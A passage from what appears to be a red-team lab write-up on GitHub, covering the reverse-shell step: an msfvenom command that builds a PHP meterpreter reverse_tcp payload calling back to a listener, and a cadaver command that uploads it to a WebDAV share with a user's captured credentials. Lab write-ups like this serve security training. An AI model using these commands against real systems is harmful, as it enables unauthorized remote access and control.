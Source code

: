 ![alt-text](https://github.com/SamGeron/Red-Team-vs-Blue-Team/blob/main/images/Picture25.png)

### **Reverse Shell:**

#### **Msfvenom**

The next task was to upload a shell script to webdav, in order to create a reverse shell.

```
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 -f raw -o shell.php
```

Using msfvenom we created a payload – shell.php

![alt-text](https://github.com/SamGeron/Red-Team-vs-Blue-Team/blob/main/images/Picture26.png)

#### **Cadaver**

```
cadaver http://192.168.1.105/webdav
```

Using cadaver and Ryan's credentials we accessed webdav, and uploaded the payload to the webdav directory.

![alt-text](https://github.com/SamGeron/Red-Team-vs-Blue-Team/blob/main/images/Picture27.png)

![alt-text](https://github.com/SamGeron/Red-Team-vs-Blue-Team/blob/main/images/Picture28.png)
